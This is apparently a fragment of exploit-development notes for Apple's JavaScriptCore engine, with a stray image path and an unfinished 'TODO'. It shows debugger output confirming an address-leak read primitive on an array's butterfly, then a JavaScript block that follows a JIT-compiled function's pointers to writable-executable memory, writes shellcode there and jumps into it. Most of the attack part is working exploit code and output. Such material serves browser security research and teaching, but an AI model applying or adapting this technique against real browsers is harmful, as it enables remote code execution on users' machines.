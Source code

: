 I can retrieve the addresses

```
>>> describe(obj)
Cell: 0x7f9dd5fdfe00 (0x7f9dd5f8f800:[Object, {a:0, b:1}, NonArray, Proto:0x7f9dd5fcbff0, Leaf]), ID: 372
>>> describe(b)
Cell: 0x7f9dd5fcbcd0 (0x7f9dd5ff8380:[Array, {}, ArrayWithDouble, Proto:0x7f9dd5fd76d0, Leaf]), ID: 121
```

and take a look from ``gdb`` and see that the forth value in the butterfly is the address of ``obj``:

```
gef➤  set $obj = (('JSC::JSObject'*) 0x7f9dd5fcbcd0)
gef➤  x/10xg $obj->butterfly()
0x7f9dd73fe5f8: 0x402abd70a3d70a3d      0x402cbd70a3d70a3d
0x7f9dd73fe608: 0x0000000400000001      0x00007f9dd5fdfe00
0x7f9dd73fe618: 0x0000000000000000      0x0000000000000000
0x7f9dd73fe628: 0x0000000000000000      0x0000000000000000
0x7f9dd73fe638: 0x0000000000000000      0x0000000000000000
```

With this we have a **read primitive** for internal memory addresses; but why?

TODO

Now that we have the read/write primitives and we can create objects
"on demand" we can use our knowledge about the internal structure of
``JSFunction`` to finally execute some code

```js
// Now the easy part:
//   1. Leak a pointer to a JIT compiled function
//   2. Leak the pointer into executable memory
//   3. Write shellcode there
//   4. Call the function
var func = makeJITCompiledFunction();
var funcAddr = addrof(func);
print("[+] Shellcode function object @ " + funcAddr);

var executableAddr = memory.readInt64(Add(funcAddr, 24));
print("[+] Executable instance @ " + executableAddr);

var jitCodeAddr = memory.readInt64(Add(executableAddr, 16));
print("[+] JITCode instance @ " + jitCodeAddr);

var codeAddr = memory.readInt64(Add(jitCodeAddr, 32));
print("[+] RWX memory @ " + codeAddr.toString());

print("[+] Writing shellcode...");
memory.write(codeAddr, shellcode);

print("[!] Jumping into shellcode...");
func();
```
